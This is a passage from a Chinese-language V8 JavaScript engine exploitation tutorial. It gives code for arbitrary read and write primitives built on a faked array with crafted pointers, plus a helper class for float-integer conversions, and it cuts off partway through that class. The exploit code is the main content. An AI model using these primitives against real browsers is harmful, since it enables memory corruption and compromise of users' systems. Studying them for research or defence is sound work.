```
function arb_read(addr) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
return fake[0];
}
 
function arb_write(addr, val) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
fake[0] = helper.i2f(BigInt(val));
}

```

完整代码如下，我们随便写一个地址测试一下原语是否可用：

```
// 用来实现类型转换
class Helpers {
constructor() {
this.buf =new ArrayBuffer(16);
this.uint32 = new Uint32Array(this.buf);
this.float64 = new Float64Array(this.buf);
this.big_uint64 = new BigUint64Array(this.buf);
}
 
// float-->uint
f2i(f)
{
this.float64[0] = f;
return this.big_uint64[0];
}
// uint-->float
i2f(i)
{
this.big_uint64[0] = i;
return this.float64[0];
}
// 64-->32
f2half(val)
{
this.float64[0]= val;
let tmp = Array.from(this.uint32);
return tmp;
}
// 32-->64
half2f(val)
{
this.uint32.set(val);
return this.float64[0];
}
 
hex(a) {
return "0x" + a.toString(16);
}
 
```